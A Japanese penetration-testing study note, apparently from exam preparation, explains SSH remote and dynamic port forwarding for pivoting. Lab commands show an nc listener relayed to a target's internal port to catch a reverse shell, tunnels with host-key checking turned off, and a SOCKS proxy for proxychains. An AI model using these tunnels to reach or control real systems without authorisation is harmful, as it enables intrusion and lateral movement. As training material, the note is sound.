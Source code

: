 リモート先のホストがインバウンドの22は閉じているが、アウトバウンドの22は開いているという場合、リモートホスト先からSSHしてローカルホストの通信を転送することができる

```bash
ssh -N -R [bind_address:]port:host:hostport [username@address]
ssh -N -R 192.168.119.250:2221:127.0.0.1:3306 kali@192.168.119.250
```

![image-20230122190653103](img/PortRedirectionAndTunneling/image-20230122190653103.png)

リモートポートフォワードはローカルポートフォワードの逆。リモートホストでリッスンしているポートが受けた通信を自分自身のポートに転送させたいときに利用する。

![image-20230107103409045](img/PortRedirectionAndTunneling/image-20230107103409045.png)

※SSHを実行するのは参照したいホスト側からという点に注意
※1024ポート以上じゃないとroot権限が必要になるので注意

##### パターン２：攻撃対象ホストの内部ポートに対してリバースシェルが来ているが、ホストにリスナーがない場合

* kaliでリスナーを作る

  ```bash
  # kali
  nc -lp 4444 -s 127.0.0.1
  ```

* 作ったリスナーをリモートポートフォーワーディングで攻撃対象の内部ポートに転送（公開）する

  ```bash
  # kali
  ssh -R:5555:localhost:4444 student@192.168.250.52 -N
  ```

  https://www.ired.team/offensive-security/lateral-movement/ssh-tunnelling-port-forwarding

  ↑イメージの参考になるサイト



##### パターン3：オプション付き

```bash
ssh -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" kali@192.168.119.158
```

* UserKnownHostsFile=/dev/null ：出力を /dev/null に送ることで、 ssh がホスト鍵を保存しようとするのを防ぐ
* StrictHostKeyChecking=no：ホスト鍵を受け入れるかどうかのプロンプトを表示しないように ssh に指示

### SSH Dynamic Port Forwarding

ポートを特定せずにproxychainを利用してリモートの宛先にトラフィック転送をする

```bash
ssh -N -D <address to bind to>:<port to bind to> <username>@<SSH server address>
```

```bash
# kali
sudo ssh -N -D 127.0.0.1:8080 student@192.168.250.44
```
